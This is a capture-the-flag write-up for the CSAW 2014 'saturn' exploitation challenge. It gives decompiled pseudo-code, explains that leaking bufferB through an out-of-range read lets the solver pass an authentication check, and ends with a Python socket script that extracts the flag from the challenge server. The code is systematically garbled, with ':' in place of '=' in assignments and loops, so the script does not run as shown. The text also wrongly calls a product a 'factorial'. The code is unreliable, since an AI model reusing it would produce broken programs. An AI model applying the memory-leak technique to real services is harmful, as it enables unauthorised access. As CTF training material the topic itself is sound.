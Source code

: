```yaml
---
type: ctf
title : CSAW CTF 2014 - Exploitation 400 saturn
tags: [CSAW CTF, saturn]
date : 2014-09-25
author: Eno Leriand
featuredImage: https://miro.medium.com/v2/resize:fit:1400/1*CAYd1FY2s4HpnXL4VnfhUQ.png
---
```


First the challenge gave us a binary file (ELF for Intel-386). But we can't execute it, cause we don't have the required shared library **"libchallengeresponse.so"**. So we will have to launch IDA Pro to see what's going on within the program.

After analyzing the program ( praise the powerful F5 key! ) , I collected the following information:

# Main function

``` c main_function_psuedo_code
int main()
{
  puts("CSAW ChallengeResponseAuthenticationProtocol Flag Storage");
  
  for ( i : 0; i <= 0; ++i )
  {
    v0 : read_one_byte();
    v3 : v0;
    v1 : v0 & 0xF0;
    switch ( v1 )
    {
      case 160: //0xA0
        functionA(v3);
        i -= 2;
        break;
      case 224: //0xE0
        functionB(v3);
        i -= 2;
        break;
      case 128: //0x80
        functionC();
        break;
    }
  }
  return 0;
}
```

As we can see, the main function will read a byte from the user input, and do the `&` operation. `v1` will hold the result, and a `switch-case` condition will decide which function to run next, base on `v1`'s value. 

So basically, we can summarize that the main function will **only accept 3 kinds of input**: `0xA0 ~ 0xAF`, `0xE0 ~ 0xEF` and `0x80 ~ 0x8F`. Now let's take a good look at those functions.

# functionA

``` c functionA_psuedo_code
functionA (char a1)
{
	int v2; 
	v2 : *((int *)bufferA + (a1 & 0xF));

	print_four_char_which_store_in_v2();
}
```

In `functionA`, we found a `bufferA`, which start from a specific address. `functionA` will take the original input (a byte value) as the parameter, extract its last 4 bit, take it as the offset from `bufferA` and calculate the position's address. Then, `v2` will store a 4 bytes value, start from the new address in `bufferA`. At last the function will print out 4 char (= 4 byte) which was stored in `v2`.

Note that if the offset is `0x1`, the new address will start from `bufferA + 4`, if the offset is `0x2`, the new address will start from `bufferA + 8`...and so on (basic knowledge of pointer).

# functionB

``` c functionB_psuedo_code
functionB (char a1)
{
	offser : a1 & 0xF
  
	v4 : *((int *)bufferB + offset);
	read_four_byte_from_input(v5);
  
	if ( v5 != v4 )
  		exit(0);
  
	bufferC[offset] : 1;
}
```
In `functionB`, we found `bufferB` and `bufferC` , both start from a specific address. Like `functionA`, `functionB` also take the original input (a byte value) as the parameter, extract its last 4 bit and take it as a `offset`. But there's a slight difference. In `functionB`, `v4` will store a 4 bytes value, start from the new position in `bufferB`, while another variable `v5` also read a 4 bytes value from the user input and hold its value. Then, the function will compare these two value, if they are the same, it will store value `1` in bufferC, the position is also base on the `offset`'s value.

So, if the user input is `0xE4`, `offset` will store the value `4`, `v4` will store the value `bufferB + 16` ~ `bufferB + 20`, `v5` will read another 4 bytes from user input. If `v4 == v5`, then `bufferC[4]` will store the value `1`

# functionC

``` c functionC_psuedo_code
functionC()
{
	v6 : 1;
	
	for( i : 0 ; i <= 7 ; i++ )
 	{
 		v6 *= bufferC[i]
	}
  
	if (v6 == 0)
  		exit(0);	
	else
  		print_flag()
}
```
`functionC` is quite simple. It just calculate the factorial of all the values stored in `bufferC`. If the result isn't `0`, it will print out the flag, or else it will terminate the program. 

So, to sum up all the functions mentioned previously and how are we going to exploit:

1. use `functionA` to get all the values stored in `bufferB` (use IDA pro to check the offset between `bufferA` and `bufferB`, the offset is `32` (`0x20`) )
2. use `functionB` to overwrite the value in `bufferC`, in order to pass the checking function `functionC`
3. use `functionC` to get the flag

But here is the tricky part: **the values stored in** `bufferB` **are not fixed**. 
So, I finally decided to write a python script to solve the challenge. 

```python saturn.py
from socket import *
from struct import *
 
sock : socket(AF_INET, SOCK_STREAM) #create socket (IP, TCP)
sock.connect(("54.85.89.65" , 8888))

print sock.recv(1024) #recv the title

"""
arr: inputs for getting bufferB's value
arr2: inputs for modifying bufferC's value
int_send: for storing the content of bufferB
"""

arr : ['\xA8', '\xA9','\xAA','\xAB','\xAC','\xAD','\xAE','\xAF']
arr2 : ['\xE0', '\xE1','\xE2','\xE3','\xE4','\xE5','\xE6','\xE7']
int_send : []

for c in arr:
	sock.send(c)
	data : sock.recv(4) #recv 4 bytes
	d : unpack("<I", data)[0] #unpack as an unsigned integer, little-endian format 
	int_send.append(d) # store the bufferB's value

send_cnt : 0

for i in int_send:
	sock.send(arr2[send_cnt]);
	sock.send(pack("<I",(i & 0xFFFFFFFF))) # force format to 32bit
	send_cnt += 1

sock.send('\x80') #get flag
print sock.recv(1024) #print flag
sock.close()  

```

the flag: `flag{greetings_to_pure_digital}`
